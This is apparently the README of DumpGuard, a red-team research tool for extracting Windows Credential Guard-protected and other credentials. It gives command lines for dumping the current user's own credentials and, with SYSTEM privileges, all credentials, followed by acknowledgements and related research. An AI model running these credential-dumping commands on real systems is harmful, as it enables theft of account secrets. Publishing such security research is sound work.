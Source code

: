# DumpGuard

![Usage Scenarios](usages.png)

## Dumping Own Guarded Credentials
Requirement: **None**.

```
DumpGuard.exe /mode:self /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Guarded Credentials
Requirement: **SYSTEM Privileges**.

```
DumpGuard.exe /mode:all /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Non-Guarded or RCG Credential
Requirement: **SYSTEM Privileges**.

```
DumpGuard.exe /mode:all
```

## Acknowledgements

Thank you to [SpecterOps](https://specterops.io/) for supporting this research and to my coworkers who have helped with its development.
- [Elad Shamir](https://twitter.com/elad_shamir) for inspiring this tool and research, and for offering valuable perspective and encouragement whenever I hit a wall.
- [Evan McBroom](https://github.com/EvanMcBroom) for sharing useful insights on LSA internals and providing ASN.1 encoders for most of the protocols used in the project

## Related Work

- [Oliver Lyak](https://github.com/ly4k) ([2022](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)), for what is, to my knowledge, the only public research on dumping Credential Guard credentials
- [James Forshaw](https://x.com/tiraniddo) ([2022](https://project-zero.issues.chromium.org/issues/42451433), [2022](https://project-zero.issues.chromium.org/issues/42451435), [2022](https://project-zero.issues.chromium.org/issues/42451397), [2022](https://project-zero.issues.chromium.org/issues/42451436)), for vulnerability submissions that slightly documents some of the undocumented interfaces that we have researched
